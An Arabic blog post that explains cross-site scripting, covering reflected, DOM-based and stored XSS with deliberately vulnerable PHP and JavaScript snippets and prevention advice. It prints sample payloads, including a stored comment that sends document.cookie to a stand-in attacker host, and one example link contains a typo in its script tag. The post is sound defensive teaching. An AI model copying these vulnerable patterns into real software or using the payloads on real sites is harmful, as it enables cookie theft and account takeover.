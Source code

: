 ```yaml
---
title: ما هي ثغرة XSS وكيف تقوم بتجنبها في برنامجك؟
author: Rashad Kokash
pubDatetime: 2025-04-08T04:06:31Z
slug: cross-site-scripting
featured: false
draft: false
tags:
  - Security
  - Web Development
description: تعرف إلى ثغرة XSS وكيف يتم استغلالها من قبل المخترقين وكيف يمكنك تفاديها في برنامجك القادم.
---
```


## في هذه المقالة

## ما هي ثغرة XSS؟

XSS (اختصارًا لـ Cross-Site Scripting) سُمِّيت بهذا الاسم باستبدال الحرف C بـ X في كلمة Cross لتجنب الالتباس مع لغة CSS (اختصارًا لـ Cascading Style Sheets).

هي ثغرة أمنية في تطبيقات الويب تسمح للمهاجم بحقن وتنفيذ سكربتات JavaScript ضارة في متصفح الضحية.

عند استغلال هذه الثغرة، يمكن للمخترق سرقة بيانات المستخدم الحساسة (مثل كلمات المرور أو معلومات الدخول)، أو تنفيذ إجراءات خفية نيابة عنه (كإجراء تحويلات بنكية في تطبيقات الخدمات المالية) دون علم الضحية.

تعتبر XSS من أخطر الثغرات حسب تصنيف OWASP.

## كيف يتم استغلال ثغرة XSS؟

عند وجود خطأ برمجي في تطبيق الويب، يستطيع المهاجم استغلاله لحقن سكربتات JavaScript خبيثة في إحدى صفحات الموقع. بمجرد زيارة الضحية لهذه الصفحة، تُنفَّذ السكربتات تلقائيًا في المتصفح، مما يتيح للمهاجم:

- سرقة بيانات المصادقة

  مثل استخراج AccessToken من localStorage أو cookies لاختراق حساب المستخدم.

- التجسس على إدخالات المستخدم

  كتسجيل ضغطات لوحة المفاتيح (Keylogging) لسرقة كلمات المرور أو المعلومات الحساسة.

- تنفيذ إجراءات غير مصرّح بها

  كإجراء تحويلات مالية أو تغيير إعدادات الحساب دون علم الضحية.

باختصار، تمنح ثغرة XSS المهاجم سيطرة شبه كاملة على صفحة الويب المُستهدفة ضمن جلسة الضحية!

## أنواع هجمات XSS

تنقسم ثغرات XSS إلى ثلاثة أنواع رئيسية بناءً على طريقة استغلالها:

1. Reflected XSS (غير المخزنة / الانعكاسية)

تظهر عندما يعكس المخدم (Server) مدخلات المستخدم (مثل إدخال في شريط البحث أو URL) مباشرةً في الصفحة دون تنقيحها.

يتم استغلالها عن طريق ارسال رابط فيه كود خبيث للضحية.

1. DOM-based XSS (متعلقة باسختدام الـ DOM)

تحدث بسبب معالجة مدخلات المستخدم (مثل document.location) عبر JavaScript وتعديل DOM ديناميكيًا دون تنقية.

الفرق عن Reflected:
لا يتدخل المخدم (Server) هنا — الثغرة تنشأ من كود الواجهة (Client-side) فقط.

1. Stored XSS (المخزنة / الدائمة)

تُخزَّن المدخلات الخبيثة (مثل تعليقات المستخدمين أو منشورات المنتدى) في قاعدة البيانات، ثم تُعرض لكل من يزور الصفحة لاحقًا.

تؤثر على جميع الضحايا الذين يشاهدون المحتوى المخزن، مما يجعلها الأكثر تدميرًا.

## أمثلة

سأختار لغة PHP في الأمثلة لأنها الأكثر تخلفاً ورجعية بين لغات البرمجة وعرضة للوقوع في هذه الثغرات:

### Reflected (الانعكاسية)

```html
<!-- نموذج البحث البسيط -->
<form method="GET" action="/search">
  <input type="text" name="search" placeholder="Search" />
  <button type="submit">بحث</button>
</form>
```

```php
<?php
// معالجة البحث (بدون تنقية المدخلات)
$query = $_GET['search'];

// عرض كلمة البحث (ثغرة XSS)
echo "<h1>نتائج البحث عن: " . $query . "!</h1>";
// عرض النتائج
// ...
?>
```

في المثال أعلاه فورم بسيط لمربع بحث - يقوم بإرسال كلمة البحث إلى المخدم (Server) ثم يقوم المخدم (Server) بجلب نتائج البحث وطباعتها.
لكنه أيضاً يقوم بطباعة كلمة البحث التي أدخلها المستخدم بدون تنقية مما يتيح للمسخدم كتابةً أي سكربت بمربع البحث على الشكل

```html
<script>
  alert("steal user password");
</script>
```

وسيتم تنفيذ هذا السكربت عنذ الإنتقال لصفحة البحث.

يتم استغلال هذه الثغرة بإرسال رابط مثل هذا للضحية:

```text
https://example.com/search.php?query=<scrip>alert('steal password')</script>
```

### DOM-based XSS (متعلقة باسختدام الـ DOM)

```html
<html>
  <body>
    <div id="result"></div>

    <script>
      const query = new URLSearchParams(window.location.search).get("query");
      document.getElementById("result").innerHTML = "نتائج البحث عن: " + query;
    </script>
  </body>
</html>
```

لاحظ كيف يتم أخد مدخلات المستخدم من الرابط ويتم طباعتها في الصفحة دون تنقية

شبيهة جداً بالثغرة على المخدم (Server) لكنها هذه المرة في كود الواجهة (Client-side)

يتم استغلالها أيضاً عن طريق ارسال رابط خبيث للمستخدم مثل هذا

```
https://example.com/search.html?query=<img src=x onerror=alert('Hacked!')>
```

عندما يتم فتح هذا الرابط فإن الصورة في الرابط سيتم إضافتها إلى الصفحة وبما أن رابط الصورة غير صالح فإن دالة `onerror` سيتم تفعيلها وبالتالي يقوم المهاجم بكتابة أي كود خبيث فيها.

### Stored XSS (المخزنة)

افترض أن لديك مدونة تقوم بإستقبال تعليقات المستخدمين فيها، لكن للأسف لا تقوم بتفحص مدخلات المستخدمين في التعليقات، بل تقوم بحفظها مباشرة في قاعدة البيانات

ثم تقوم بعرضها تحت التدوينة عند الدخول إليها.

بفرض هذه قاعدة بياناتك

```markdown
| id  | user_id | blog_id | body                                                                     |
| --- | ------- | ------- | ------------------------------------------------------------------------ |
| 1   | 5       | 12      | مقال رائع                                                                |
| 2   | 3       | 1       | <script>fetch('https://attacker.com?cookie=' + document.cookie)</script> |
```

```php
<?php

$comments = get_comments_for_blog(1)

foreach ($comments as $comment) {
    echo "<div>";
    echo "<p>" . $comment['body'] . "</p>";
    echo "</div>";
}

?>
```

عند الدخول للتدوينة رقم ١ يتم جلب التعليق رقم ٢ وعرضه
يحتوي هذا التعليق على سكربت خبيث يقوم بسرقة الكعكات (Cookies) وإرسالها إلى المهاجم عن طريق HTTP.

## كيف تتفادى ثغرات XSS

قد يعتقد البعض أن هذه الثغرات أصبحت قديمة ولا يمكن استخدامها حالياً مع أطر العمل أو المكتبات الجديدة مثل Laravel أو React أو Angular.

أولاً عليك تقبل أنك بشر وقد تسهو أو تخطأ وعلى حسب برنامجك الخطأ قد يكون قاتلاً.

كما أنك مخطئ بشأن الثقة التامة بأطر العمل أو المكاتب - فأطر العمل هذه أو المكتبات ما هي إلا برامج كتبها أناس آخرون قد يكونون قد وقعوا حقاً في هذه الثغرة مما يجعل برنامجك المعتمد عليها عرضة للاختراق إن تم اختراق المكتبة.

لا تنس أيضاً أنه كما أنك تعمل ٨ ساعات يومياً لكتابة البرامج، فهناك من يعمل مثل هذه الساعات على الأقل لاختراق هذه البرامج والبحث في كودها سطراً سطراً لايجاد مثل هذه الثغرات.

نقاط لا بد منها:

1. لا تثق بالمستخدم أبداً أبداً - تفحص كل شيء قبل عرضه أو تخزينه
2. قم بتحديث المكتبات بشكل دوري فهي غالباً تقوم بإغلاق ثغرات مكتشفة في كل نسخة
3. تابع OWASP أو آخر الثغرات المكتشفة من أي مصدر آخر
4. تدرب على اكتشاف هذه الثغرة وأشكالها الكثيرة التي لم اذكر منها إلا ثلاثة امثلة بسيطة جداً

## ملخص

ثغرة XSS من أخطر ثغرات الويب وقد تكلف بعض البرامج حياتها.
يمكنك التمرس على إكتشاف هذه الثغرة والتعرف على أشكالها عن طريق [portswigger](https://portswigger.net/)
